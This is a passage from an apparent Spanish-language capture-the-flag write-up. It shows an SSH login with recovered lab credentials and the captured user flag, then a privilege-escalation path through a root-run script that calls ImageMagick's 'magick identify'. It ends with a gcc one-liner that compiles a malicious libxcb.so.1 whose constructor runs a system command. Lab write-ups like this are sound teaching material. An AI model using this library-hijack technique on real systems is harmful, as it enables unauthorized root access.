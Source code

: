 Por lo que vemos hemos obtenido la contraseña, por lo que nos meteremos por `SSH` mediante las credenciales:

```
User: developer
Pass: 25282528
```

### SSH

```shell
ssh developer@<IP>
```

Metemos como contraseña `25282528` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
cac7d5645963a2eae1d90fb07d6d3e46
```

## Escalate Privileges

Si nos vamos a la carpeta `/opt` veremos una carpeta llamada `/app` que si nos metemos dentro veremos la aplicacion, pero en la carpeta `tickets` vemos que tenemos permisos para escribir:

```
drwxrwx--- 2 root developer 4096 Feb 24 17:25 tickets
```

Si nos metemos dentro veremos todos los `.json` de la base de datos, pero si nos volvemos atras, donde la `/app` nos vamos a `static/assets/images`, veremos que aqui tambien podemos escribir en esta carpeta.

Por lo que vemos esto es bastante interesante, pero si nos vamos a la siguiente ruta:

```shell
cd /opt/scripts
```

Veremos que hay un script en `bash` que si leemos que contiene, veremos esto:

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Vemos que esta utilizando una herramienta llamada `magick` que es famosa por tener una vulnerabilidad para leer ficheros del sistema, por lo que vamos a ver si funciona.

URL = [Exploit magick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

Si nos vamos a esta seccion:

```shell
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```
